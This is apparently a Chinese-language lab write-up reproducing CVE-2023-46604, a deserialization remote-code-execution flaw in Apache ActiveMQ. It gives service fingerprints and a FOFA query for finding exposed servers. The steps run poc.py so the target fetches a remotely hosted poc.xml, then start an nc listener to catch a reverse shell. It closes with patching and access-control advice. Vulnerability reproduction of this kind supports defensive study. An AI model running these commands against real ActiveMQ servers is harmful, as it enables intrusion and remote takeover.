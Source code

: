 # Apache ActiveMQ RCE 

## 漏洞编号

CVE-2023-46604



## 漏洞描述

Apache ActiveMQ 是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务、集群、Spring Framework等。
OpenWire协议在ActiveMQ中被用于多语言客户端与服务端通信。

在Apache ActiveMQ 5.18.2版本及以前，OpenWire协议通信过程中存在一处反序列化漏洞，该漏洞可以允许具有网络访问权限的远程攻击者通过操作 OpenWire 协议中的序列化类类型，导致代理的类路径上的任何类实例化，从而执行任意命令。



## 影响版本

Apache ActiveMQ <= 5.18.2



## ActiveMQ指纹信息

```
端口：
	8161
服务器：
	jetty
banner：
	server:activemq
	magic:activemq
	realm="activemqrealm"
头部：
	realm="activemqrealm"
```



## 相关工具

reshell编码

[Runtime.exec Payload Generater | AresX's Blog](https://ares-x.com/tools/runtime-exec)





## FOFA语法

```
app="APACHE-ActiveMQ"&&port="8161"&&status_code="200"&&country="CN"
```





## 环境配置

vulhub启动环境

```
docker-compose up -d
```

![image-20250409132726325](./assets/image-20250409132726325.png)

访问192.168.1.15:8161验证

![image-20250409133154172](./assets/image-20250409133154172.png)

成功部署



## 漏洞复现

```
服务器：192.168.1.1
靶机：192.168.1.15
攻击机：192.168.1.21
```



在pox.xml路径下开启http服务

```
python -m http.server 9999
```

![image-20250409133239785](./assets/image-20250409133239785.png)

检查poc.xml内容

![image-20250409133344961](./assets/image-20250409133344961.png)

即在/tmp目录下创建success文件



执行poc.py

```
python3 poc.py
```

![image-20250409133527046](./assets/image-20250409133527046.png)

需要提供 目标ip 目标端口 http服务下的poc.xml

```
python3 poc.py 192.168.1.15 61616 http://192.168.1.1:9999/poc.xml
```

![image-20250409133714957](./assets/image-20250409133714957.png)

发送请求

![image-20250409133723787](./assets/image-20250409133723787.png)

成功记录日志



进入容器中验证

```
docker ps
docker exec -it b99b5c6c9657 /bin/bash
```

![image-20250409133808863](./assets/image-20250409133808863.png)

成功创建



尝试反弹shell

开启监听

```
nc -lvp 443
```

![image-20250409133948533](./assets/image-20250409133948533.png)



修改http服务器下的poc.xml内容

[Runtime.exec Payload Generater | AresX's Blog](https://ares-x.com/tools/runtime-exec)



![image-20250409134044895](./assets/image-20250409134044895.png)

![image-20250409134326518](./assets/image-20250409134326518.png)



再次执行

```
python3 poc.py 192.168.1.15 61616 http://192.168.1.1:9999/poc.xml
```

![image-20250409134309871](./assets/image-20250409134309871.png)

![image-20250409134401059](./assets/image-20250409134401059.png)

成功弹回shell





## 修复建议

- 升级ActiveMQ版本
- 增加访问验证
  - ActiveMQ默认开放了61616端口
  - 我们可以通过修改配置文件，使访问61616端口是需要进行登录验证
- 配置防火墙